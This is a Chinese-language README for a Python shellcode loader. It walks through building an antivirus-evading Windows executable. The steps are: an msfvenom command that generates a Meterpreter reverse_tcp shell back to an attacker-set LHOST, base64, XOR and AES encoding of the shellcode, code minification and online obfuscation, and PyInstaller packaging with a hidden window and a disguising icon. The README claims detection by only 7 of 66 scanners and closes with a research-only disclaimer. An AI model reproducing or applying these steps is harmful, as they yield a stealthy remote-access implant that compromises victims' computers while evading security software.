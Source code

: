 # python-shellcode-loader

简单介绍
免杀方式 msfvenom生成raw格式的shellcode-->base64-->XOR-->AES
将python代码缩小并混淆最后生成exe
目前过DF、360和火绒  virustotal：7/66过卡巴斯基、迈克菲等
获取项目
git clone https://github.com/HZzz2/python-shellcode-loader.git
cd python-shellcode-loader
生成shellcode
#生成shellcode
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw
base64编码shellcode并替换jiami.py中的值
#base64
base64 -w 0 -i rev.raw > rev.bs64
cat rev.bs64
复制base64的值替换jiami.py中payload       也就是 第二十五行 sc='payload' 
加密base64并替换main.py中的值
#加密base64后的shellcode
python3 jiami.py
#会生成一个aes-xor.txt的文件，复制文件里的值(经过XOR和AES加密后)
复制的值替换main.py中的payload   也就是第四十一行 jiami_sc='payload'
缩小和混淆py代码
缩小python代码
pyminify main.py --output main-mini.py
混淆main-mini.py中的python代码
https://pyob.oxyry.com/  在线混淆

将混淆后的代码保存到一个文件中，比如文件名为:main-mini-ob.py
打包成可执行文件exe
#打包成exe
pyinstaller.exe -Fw -i .\setting.ico --key=leslie .\main-mini-ob.py
-F 打包为单文件 -w 不显示窗口   -i ico图标文件  --key  加密字节码的密钥
等待打包完成。。。。
打包好后的可执行程序在dist目录中
流程图

检测图







免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。



























